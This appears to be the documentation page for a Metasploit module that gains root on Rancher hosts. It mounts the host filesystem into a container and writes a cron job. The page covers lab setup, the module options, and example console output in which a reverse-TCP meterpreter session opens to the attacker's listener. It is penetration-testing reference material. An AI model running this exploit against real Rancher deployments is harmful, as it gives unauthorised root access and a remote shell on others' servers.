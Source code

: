 # Vulnerable Application
Utilizing Rancher Server, an attacker can create a docker container
with the '/' path mounted with read/write permissions on the host
server that is running the docker container. As the docker container
executes command as uid 0 it is honored by the host operating system
allowing the attacker to edit/create files owned by root. This exploit
abuses this to creates a cron job in the '/etc/cron.d/' path of the
host server.

The Docker image should exist on the target system or be a valid image
from hub.docker.com.

## Rancher setup
Rancher is deployed as a set of Docker containers. Running Rancher is
as simple as launching two containers. One container as the management
server and another container on a node as an agent.

This module was tested with Debian 9 and CentOS 7 as the host operating
system with Docker 17.06.1-ce and Rancher Server 1.6.2, all with
default installation.

### Install Debian 9
First [install Debian 9][1] with default task selection. This includes
the "*standard system utilities*".

### Install Docker CE
Then install a supported version of [Docker on Debian system][2].

```bash
# TL;DR
apt-get remove docker docker-engine
apt-get install apt-transport-https ca-certificates curl gnupg2 software-properties-common
curl -fsSL https://download.docker.com/linux/debian/gpg | apt-key add -
apt-key fingerprint 0EBFCD88
# Verify that the key ID is 9DC8 5822 9FC7 DD38 854A E2D8 8D81 803C 0EBF CD88.
add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/debian $(lsb_release -cs) stable"
apt-get update
apt-get install docker-ce
docker run hello-world
```

### Rancher Server (Management)
I recommend doing a ['Rancher Server - Single Container (NON-HA)'
installation][3].

If Docker is installed, the command to start a single instance of
Rancher is simple.

```bash
# TL;DR
sudo docker run -d --restart=unless-stopped -p 8080:8080 rancher/server
```

If all is passing navigate to `http://[ip]:8080/`. You should see the
Rancher Server UI web application.

### Rancher Host (Agent)

Add a [new host][4] to Rancher Server so that the Docker host can be managed.

**Set Host Registration URL**

The first time that you add a host, you may be required to set up the
Host Registration URL.

* Navigate to Admin / Settings (`http://[ip]:8080/admin/settings`)
* Check if `"http://[ip]:8080/"` is set 
* Click on Save.

**Add new host**

* Navigate to Infrastructure / Hosts (`http://[ip]:8080/env/1a5/infra/hosts`)
* Click on Add Host
* Copy the command from Point 5 (and remove sudo prefix)
  `docker run --rm --privileged -v /var/run/docker.sock:/var/run/docker.sock -v /var/lib/rancher:/var/lib/rancher rancher/agent:v1.2.2 http://[ip]:8080/v1/scripts/XXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXX:XXXXXXXXXXXXXXXXXXXXXXXXX`
* Paste and run the command on the host

The new host should pop up on the Hosts screen within a minute.

# Exploitation
This module is designed to gain root access on a Rancher Host.

## Options
- CONTAINER_ID if you want to have a human readable name for your container, otherwise it will be randomly generated.
- DOCKERIMAGE is the local image or hub.docker.com available image you want to have Rancher to deploy for this exploit.
- TARGETURI this is the Rancher Server API path. The default environment is `/v1/projects/1a5`.
- WAIT_TIMEOUT is how long you will wait for a docker container to deploy before bailing out if it does not start.

By default access control is disabled, but if enabled, you need API
Keys with at least "restrictive" permission in the environment.
See Rancher docs for [api-keys][5] and [membership-roles][6].

- HttpUsername is for your Access Key
- HttpPassword is for your Secret Key

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/rancher_server
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a docker container and it successfully runs 
- [ ] After a minute a session should be opened from the agent server

## Example Output
```
msf > use exploit/linux/http/rancher_server
msf exploit(rancher_server) > set RHOST 192.168.91.111
RHOST => 192.168.91.111
msf exploit(rancher_server) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf exploit(rancher_server) > set LHOST 192.168.91.1
LHOST => 192.168.91.1
msf exploit(rancher_server) > set VERBOSE true
VERBOSE => true
msf exploit(rancher_server) > check
[*] 192.168.91.111:8080 The target appears to be vulnerable.
msf exploit(rancher_server) > exploit

[*] Started reverse TCP handler on 192.168.91.1:4444
[*] Setting container json request variables
[*] Creating the docker container command
[+] The docker container is created, waiting for it to deploy
[*] Waiting up to 60 seconds for docker container to start
[+] The docker container has stopped, now trying to remove it
[+] The docker container has been removed.
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Sending stage (40747 bytes) to 192.168.91.111
[*] Meterpreter session 1 opened (192.168.91.1:4444 -> 192.168.91.111:49948) at 2017-07-27 22:18:00 +0200
[+] Deleted /etc/cron.d/wlHVKGMA
[+] Deleted /tmp/jxKUxUyN

meterpreter > sysinfo
Computer        : rancher
OS              : Linux 4.9.0-3-amd64 #1 SMP Debian 4.9.30-2+deb9u2 (2017-06-26)
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```

[1]:https://www.debian.org/releases/stretch/amd64/index.html.en
[2]:https://docs.docker.com/engine/installation/linux/docker-ce/debian/
[3]:http://rancher.com/docs/rancher/v1.6/en/installing-rancher/installing-server/#launching-rancher-server---single-container-non-ha
[4]:http://rancher.com/docs/rancher/v1.6/en/hosts/#adding-a-host
[5]:http://rancher.com/docs/rancher/v1.6/en/api/v2-beta/api-keys/
[6]:http://rancher.com/docs/rancher/v1.6/en/environments/#membership-roles
